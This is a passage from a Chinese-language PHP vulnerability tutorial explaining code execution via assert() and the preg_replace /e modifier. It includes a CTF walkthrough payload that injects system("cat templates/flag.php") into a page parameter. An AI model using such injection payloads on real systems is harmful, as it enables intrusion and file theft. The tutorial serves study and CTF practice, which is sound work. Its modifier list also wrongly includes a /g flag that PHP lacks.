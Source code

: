 ### **4.2. assert()（单行执行）**

编写代码时，我们总是会做出一些假设，断言就是用于在代码中捕捉这些假设，可以将断言看作是异常处理的一种高级形式。程序员断言在程序中的某个特定点该的表达式值为真(为真才能继续执行)。如果该表达式为假，就**中断操作.**

```php
assert ( mixed $assertion [, Throwable $exception ] )
```

漏洞：如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。跟eval（)，和eval（)函数区别在于参数不需要分号结尾

```php
eval（" phpinfo()"); <错误>
eval（" phpinfo();"); <正确>
assert(" phpinfo()"); <正确>
```

例题：（攻防世界-mfw(.git泄露)）

知道了assert断言的代码执行漏洞后，我们就来构造payload，这里利用了闭合的思想：分析代码可知，若想得到flag，则需要给page传入的须满足

```php
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false")
尝试
?page=abc') or system("cat templates/flag.php");//
即
$file = "templates/abc') or system("cat templates/flag.php");//.php";
即
assert("strpos('templates/abc') or system("cat templates/flag.php");//.php', '..') 
得到
（这个地方我本来在主页提交的，但是怎么都显示不出flag，ctrl+u查看源码就能看见了，或直接在源码也提交）
?page=abc') or system(phpinfo());//
就可查看phpinfo信息。
```

### 4.3. **preg_replace()**  (php<=v5.5  preg_replace \e 模式如果 replacement中是双引号的，那有此漏洞  )

**preg_replace函数原型：**https://www.php.net/manual/zh/function.preg-replace.php  ---执行一个正则表达式的搜索和替换

```php
mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])
mixed preg_replace (正则表达式, 替换成, 字符串, 最大替换次数【默认-1，无数次】, 替换次数)
```

**搜索subject中匹配pattern的部分，以replacement进行替换。** 

先来了解一些这个函数相关的东西：

#### 1、replacement部分的修饰符：

```php
/g 表示该表达式将用来在输入字符串中查找所有可能的匹配，返回的结果可以是多个。如果不加/g最多只会匹配一个
/i 表示匹配的时候不区分大小写，这个跟其它语言的正则用法相同
/m 表示多行匹配。什么是多行匹配呢？就是匹配换行符两端的潜在匹配。影响正则中的^$符号
/s 与/m相对，单行模式匹配。
/e 可执行模式，此为PHP专有参数，例如preg_replace函数。
/x 忽略空白模式。
```

